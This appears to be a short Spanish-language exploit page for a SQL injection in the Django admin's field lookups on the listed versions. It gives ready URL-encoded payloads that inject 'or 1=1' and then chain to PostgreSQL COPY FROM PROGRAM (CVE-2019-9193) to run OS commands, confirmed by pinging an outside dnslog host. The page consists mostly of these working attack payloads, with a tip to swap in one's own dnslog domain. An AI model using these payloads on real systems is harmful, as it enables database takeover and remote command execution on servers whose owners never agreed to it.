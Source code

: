 <languages   />

Versión afectada
----------------

    Django 2.2.x < 2.2.4

    Django 2.1.x < 2.1.11

    Django 1.11.x < 1.11.23

Explotar
--------

Primero, debe iniciar sesión en el fondo del administrador y acceder a la página de administración de la colección de modelos:

    http://127.0.0.1/admin/vuln/collection/

    http://127.0.0.1/admin/vuln/collection/?detail__a%27

    http://127.0.0.1/admin/vuln/collection/?detail__a%27)%3D%271%27%20or%201%3d1%20--

Django se usa generalmente con PostgreSQL. Puede intentar aprovechar la vulnerabilidad de ejecución de comandos de alto privilegio de PostgreSQL [(CVE-2019-9193)](https://www.pwnwiki.org/index.php?title=CVE-2019-9193_PostgreSQL_%E9%AB%98%E6%AC%8A%E9%99%90%E5%91%BD%E4%BB%A4%E5%9F%B7%E8%A1%8C%E6%BC%8F%E6%B4%9E)

Visite la siguiente URL:

    http://127.0.0.1/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcreate%20table%20cmd_execs(cmd_output%20text)--%20

Haga eco de la sentencia `no results to fetch` ejecutada con éxito.

acceso:

    http://127.0.0.1/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcopy%20cmd_execs%20FROM%20PROGRAM%20%27ping%20test.dnslog.cn%20%27--%20

El comando se ejecutó con éxito.

### ⚠️️

` test.dnslog.cn ` modifique a su propio Dnslog